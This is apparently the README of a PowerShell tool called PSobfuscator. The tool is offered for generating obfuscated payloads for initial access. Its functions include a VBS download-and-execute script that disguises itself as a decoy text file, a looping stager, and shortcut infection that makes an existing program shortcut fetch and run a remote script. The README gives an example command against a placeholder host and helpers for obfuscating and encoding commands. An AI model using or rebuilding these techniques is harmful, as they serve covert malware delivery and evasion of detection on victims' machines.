 # PSobfuscator

The result of porting some functionality from gen-obfuscated into the powershell clients.
These are those functions, plus some original content in a stand alone version that can 
be run from windows to generate payloads to get initial access.

This is not complete and the under utilized functions will be expanded upon, or you can
do you own thing and not have to wait.

Available functions.

### simple-downloader "Url-hosting-script" 
Generates an obfuscated vbs script that will download and execute 
a powershell script. After execution it rewrites itself into a txt 
file with bogus info and opens in notepad.

### looping-stager "Url-hosting-script" 
Generates a command string for use kicks 
of a looping downloader.

### gen-shorcut "Url-hosting-script" 
Creates a shortcut that downloads and executes the script found in the 
provided url.
	

### shortcut-infect "name-of-lnk" "Url-hosting-script" 
Modifies the specified existing shortcut to run the original program 
and also execute a download and execute command string. 
	
   example: 
   ```
   shortcut-infect "Google Chrome.lnk" "http://some-doman[.]com/hello.ps1" 
   ```
   requires the http:// or https:// in the URL.

Only run this on the target system.

### obfuscate "name of text file / script"
Uses a polyalphabetic obfuscation method on base64 strings writes 
obfuscated string to file and provides a de-obfuscation key.


### de-obfuscate "name of text file / script" "key" 
Performs the inverse of the obfuscation function requires the text 
file with the obfuscated base64 data and de-obfuscation key as parameters.


### gen-key
generates a random alphabetic string for use with the obfuscate-base64 
function.


### obfuscate-base64 "(action:hide or clear ), (key: obfuscation or de-ofuscation), (base64-string)" 
The function that contains the obfuscation engine, it works only 
with clear base64 data. It's UTF8 so do not use this for 
powershell encoded commands.


### byte-encode "binary-to-obfuscate" "key" 
Performs byte-encoding prior to converting to obfuscated base64 
provide key de-obfuscation.


### byte-decode "file-containing-obfu-base64" "key" 
performs the reverse of byte-encode, requires the de-obfuscation key.


### gen-enccmd "your command string"
Generates a PowerShell formatted encoded command. Insure to quote 
your command string.
	
   example: gen-enccmd "cmd /c ipconfig /all"

### dec-enccmd "Your encoded command string" 
Decodes the base64 string and displays the original string.


IMPORTANT !!!
Be sure to dot source this script or iex to import these function 
into your current powershell session for this to work.

example: 
```
PS C:\>	. .\PSobfuscator.ps1
```


